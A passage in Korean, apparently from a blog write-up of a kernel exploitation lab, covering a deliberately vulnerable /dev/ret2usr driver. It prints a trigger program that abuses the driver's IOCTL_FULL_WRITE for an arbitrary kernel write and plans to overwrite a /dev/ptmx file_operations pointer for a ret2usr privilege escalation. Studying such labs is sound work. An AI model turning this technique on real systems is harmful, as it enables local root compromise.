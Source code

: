 ```c
MODULE_LICENSE("GPL");
```

`_init_load()` 함수를 통해 `/dev/ret2usr` 디바이스를 등록하며, `device_ioctl()` 함수 선언을 통해 `ioctl()`[^ioctl]호출시 `arbitrary_write()` 함수와 `partial_write()`함수를 사용할 수 있다.

---

# Arbitary Address Write Exploit
아래와 같은 AAW trigger template이 제공되어 있다.

**trigger1.c**
```c
/* arbitrary write primitive (write-what-where) trigger */
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "drv.h"

int main() {
	int fd;
	struct drv_req req;

	fd = open(DEVICE_PATH, O_RDONLY);

	if (fd == -1) {
		perror("open");
		return -1;
	}

	/* set the address to overwrite and the new value */
	req.address = 0xffffffff81000000;
	req.value = 0xdeadbeef;

	ioctl(fd, IOCTL_FULL_WRITE, &req);
}
```

`ioctl` 호출시 `cmd` 필드가 `IOCTL_FULL_WRITE`이라면, 임의 주소 쓰기(`Arbitary Address Write`, `AAW`)가 가능하다.

우선 Exploit 코드를 작성하기 전, 메모리의 어느 공간(`Where`)에, 어떤 값(`What`)을 쓸 것인지 생각해야 한다.
`IOCTL_FULL_WRITE` 옵션을 통해 커널 영역의 함수 포인터를 유저 영역에서 우리가 선언한 함수의 주소로 바꿔치기하여 `ret2usr` 공격을 성사시킬 수 있을 것이기 때문에 `What`은 우리가 작성한 `Exploit Payload` 함수의 주소가 된다.

그렇다면 `Where`, 어디에 페이로드 함수의 주소를 써야 할까?
이번에는 [Blazeme](https://nonetype.github.io/2019-09-16/BlazeCTF2018-blazeme-write-up) 문제를 풀다가 발견한 [방법](https://www.lazenca.net/pages/viewpage.action?pageId=25624658#id-04.Write-what-where(ArbitraryMemoryOverwrite)(feat.ret2usr)-ptmx)을 사용해 보려고 한다.

링크의 글에서는 AAW 취약점을 통해 `/dev/ptmx` 디바이스의 `file_operations`(fops)구조체 내에 존재하는 함수 포인터를 덮는 방식으로 익스플로잇을 진행한다.


[^rings]: [PRIVILEGE LEVEL(RING 0, RING 3)] <https://elfmfl.tistory.com/2>
[^ioctl]: [ioctl 정리] <http://blog.naver.com/PostView.nhn?blogId=jyh3211&logNo=40131890810>
[^find]: [linux manpage] <http://man7.org/linux/man-pages/man1/find.1.html>
[^desc_ptr]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/kernel/idt.c#L171>
[^idt_table]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc.h#L44>
[^gate_desc]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L88>
[^desc_struct]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L16>